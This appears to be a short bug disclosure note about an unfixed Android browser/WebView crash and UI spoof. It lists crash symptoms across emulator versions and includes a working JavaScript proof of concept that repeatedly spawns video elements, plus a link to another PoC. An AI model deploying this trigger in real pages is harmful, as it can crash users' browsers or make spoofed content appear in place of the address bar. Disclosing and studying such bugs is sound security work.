 ```yaml
---
title: Android Crash and UI spoof (Not fixed)
---
```


Android 12 (x86_64): Internal Emulator crash EXCEPTION_ACCESS_VIOLATION_WRITE
Android 11 (x86): Emulator closes
Android 9 (x86): Launcher crash frameworks/av/media/libstagefright/omx/SimpleSoftOMXComponent.cpp:476 CHECK(state == OMX_StateLoaded || state == OMX_StateExecuting) failed

I have also had issue where the address bar or a different website in the case of a webview get shown instead of the video element.
```js
<script> onload = () => { createVideo();createVideo();createVideo();createVideo();createVideo(); } function createVideo() { let v = null; setInterval(() => { if (v) document.body.removeChild(v); v = document.createElement('video'); v.width="1000"; v.src = 'https://bugs.chromium.org/p/chromium/issues/attachment?aid=509705&signed_aid=QB-NucJqv2HA_Noz5yih-w==&inline=1'; document.body.appendChild(v); }, 2000); } </script>
```
[Doge PoC](https://ndev.tk/doge/)
